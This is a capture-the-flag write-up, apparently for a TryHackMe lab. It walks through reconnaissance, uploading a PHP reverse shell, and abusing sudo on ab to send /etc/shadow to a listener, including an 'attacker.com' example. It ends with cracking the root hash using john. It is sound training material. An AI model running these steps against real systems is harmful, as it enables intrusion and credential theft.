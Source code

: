 # NMAP

we begin by a nmap scan :

and see two ports: ssh and http
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nmap <IP>                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 22:16 CEST
Nmap scan report for 10.10.104.209
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

# Gobuster

and continue by run a gobuster scan :

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP>
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.209
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/29 22:25:53 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.104.209/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.104.209/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.104.209/js/] 
/robots.txt           (Status: 301) [Size: 311] [--> http://10.10.104.209/robots.txt] 
```

in `robots.txt` we found this:

```text
User-agent: *

Disallow: /message.php 
```

going to <IP>/message.php

![message.php](./img/message.png)

and find some messages:

```text
john: hello admin, my friends alice don't find her password
admin: the password of alice is:
```
try to login into the website
![index.php](./img/login.png)
with the logins find in message.php and explore the website
, then we find an section called send files
![message.php](./img/upload.png)
where we can upload a php reverse shell [generator of reverse shell](http://revshells.com) use [pwnat-cs](https://github.com/calebstewart/pwncat) for listener and and go to `<IP>/upload/revshell.php` and getting the flag:

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ pwncat-cs :9001   
[23:42:45] Welcome to pwncat 🐈!
[23:42:57] received connection from 127.0.0.1:49558
[23:42:57] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash
localhost:49558: registered new host w/ db
(local) pwncat$                                            
(remote) john@my-first-project:~$ ls
user.txt
(remote) john@my-first-project:~$ cat user.txt
THM{flag}
(remote) john@my-first-project:~$ 
```

# PrivEsc

then we type sudo -l for see the sudo perms of the user john:
```bash
john@my-first-project:~$ sudo -l
Matching Defaults entries for john on my-first-project:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on my-first-project:
    (root) NOPASSWD: /bin/ab
```

go to [GTFOBins](https://gtfobins.github.io/) and search for ab in gtfobins :
```bash
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```

for exploit this fail use netcat on the attacker pc:
```bash
nc -nlvp 9002
```

and set good params on the room bash:
```
URL=<IP>:9002/
LFILE=/etc/shadow
```

and exploit:
```
sudo ab -p $LFILE $URL
```

and it's return:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nc -nlvp 9002               
listening on [any] 9002 ...
connect to [192.168.1.22] from (UNKNOWN) [192.168.1.25] 46008
POST / HTTP/1.0
Content-length: 1183
Content-type: text/plain
Host: 192.168.1.22:9002
User-Agent: ApacheBench/2.3
Accept: */*

root:hash:19199:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19198:0:99999:7:::
sshd:*:19198:0:99999:7:::
systemd-coredump:!!:19198::::::
lxd:!:19198::::::
mysql:!:19198:0:99999:7:::
john:hash:19199:0:99999:7:::
```
then use unshadow to bruteforce root password with john:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ unshadow passwd shadow > hash

┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
passwd      (root)     
1g 0:00:00:02 DONE (2022-07-29 23:37) 0.3773g/s 2125p/s 2125c/s 2125C/s allison1..katana
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

and use su to login as root and then go to /root for getting the 2nd flag:
```bash
Password: passwd
root@my-first-project:/home/john# cd /root
root@my-first-project:~# ls
root.txt  snap
root@my-first-project:~# cat root.txt
THM{flag}
root@my-first-project:~# 
```
